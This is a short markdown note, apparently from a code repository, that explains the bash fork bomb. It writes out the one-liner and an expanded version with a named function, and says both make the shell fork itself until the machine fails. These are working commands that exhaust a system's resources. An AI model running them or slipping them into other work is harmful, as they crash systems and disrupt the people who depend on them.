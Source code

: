 # Shell Fork Bomb

## Fork Bomd

- `:(){ :|:& };:`
    - This line keeps calling function to fork itself and blow up your machine
- Clear explanation
    ```bash
    my_function(){
        my_function | my_function&
    };
    my_function
    ```
